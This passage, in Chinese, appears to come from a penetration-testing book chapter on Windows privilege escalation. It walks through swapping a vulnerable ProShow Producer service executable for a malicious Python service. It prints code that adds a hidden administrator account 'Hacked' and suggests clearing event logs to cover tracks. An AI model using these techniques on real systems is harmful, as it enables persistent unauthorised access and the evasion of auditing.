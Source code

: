这个脚本将简单地调用 Windows 中的`IsUserAnAdmin()`函数。如果返回值是`0`，则表示我们是标准用户；否则，表示我们拥有管理员权限。要运行这个脚本，请以管理员身份打开命令提示符，并导航到`Desktop`然后是`Users`，然后输入`python "Are we Admin.py"`。如果我们拥有管理员权限，将显示`[+] We are admin :)`。这是因为在启动命令提示符之前，我右键点击并选择了“以管理员身份运行”。

所以，我打算在我们的代码中使用这个小技巧，并将检查管理员权限的脚本注入到我们的恶意服务中。显然，它应该在服务启动时执行，因此应该位于`start()`函数内。一旦我们运行服务，我们将在桌面上创建一个文本文件，文件中将显示我们当前的权限。

所以，我们现在将像上一章一样将脚本导出为 EXE 文件，到这时，我们需要做的就是用生成的文件替换原始的 EXE 文件。前往 Photodex 软件的原始文件位置。由于软件存在漏洞，我们可以替换这个文件。所以，我将把这个文件重命名为`access2`，然后简单地复制并粘贴我们的恶意文件。如果一切正常，我们的服务应该没有任何错误地运行，并且我们应该在桌面上看到一个文本文件，打开它后应该告诉我们当前运行的权限。重启后，你会注意到桌面上有一个`priv`文本文件。如果你打开它，你会看到一行文本，说明我们以管理员身份运行。

# 提权攻击——创建一个新的管理员账户并掩盖痕迹

在我们之前的章节中，我们创建了一个恶意的 Python 服务，并将合法服务替换掉。一旦系统启动，我们验证了我们获得了系统或管理员权限。现在，在这一节中，我们将看到如何创建一个新的管理员账户，然后从标准用户跳转到管理员账户。所以，我在代码部分做的修改是将以下部分添加到之前的代码中，简而言之，这段代码将会在服务启动后创建一个新的管理员账户：

```
...       

 USER = "Hacked"
        GROUP = "Administrators"
        user_info = dict ( # create a user info profile in a dictionary format
               name = USER,
               password = "python_is_my_life", # Define the password for the 'hacked' username
               priv = win32netcon.USER_PRIV_USER,
               home_dir = None,
               comment = None,
               flags = win32netcon.UF_SCRIPT,
               script_path = None
                )

        user_group_info = dict ( # create a group info profile in a dictionary format
            domainandname = USER
           )

        try:
            win32net.NetUserAdd (None, 1, user_info)
            win32net.NetLocalGroupAddMembers (None, GROUP, 3, [user_group_info])
        except Exception, x:
            pass

...
```

所以，记住，我已经在`start()`函数下添加了上述部分。在这里，我们定义了一个名为`Hacked`的新用户名，以及它所属的组，即`Administrators`组。接下来，我们在字典格式中创建一个用户和组信息配置文件。然后，在字典中，我们指定一些值，如`password`、`priv`和`home_dir`。最后，我们创建新的管理员账户并将其添加为`Administrators`组的成员。如果在创建过程中发生任何异常，我们将简单跳过它。现在，在导出代码为 EXE 并测试之前，快速验证一下我们在机器上获得的用户名，通过在命令提示符中运行`net users`，它会列出机器上的所有用户。

目前，我们登录的是`nonadmin`账户。所以，让我们继续在这里导出 EXE。将脚本复制到`Toexe`文件夹并重命名为`sciaccess`。现在，运行安装文件。然后，将导出的 EXE 文件复制并替换掉`Photodex\ProShow Producer`文件夹中的脆弱软件。此时，如果一切正常，重启后我们应该能看到一个名为`Hacked`的新管理员账户。现在，重启机器并登录到`nonadmin`账户。打开命令提示符。现在，如果我们输入`net users`，我们将看到一个新的用户名`Hacked`。

如果我们输入`net users Hacked`，我们会看到底部显示我们属于`Administrators`组。所以，在这一点上，一旦我们获得管理员权限，就可以为所欲为。那么，让我们走上歧途，使用被黑的管理员账户登录并清除事件查看器中的 Windows 事件日志。这将有助于我们掩盖痕迹。

# 总结

在本章中，我们学习了不同的特权提升方式和漏洞利用方法。我们从导出文件到 EXE 开始，然后转向针对脆弱软件。之后，我们开始创建后门并随后掩盖我们的痕迹，以避免被发现。

在下一章，我们将处理不同类型的加密算法。
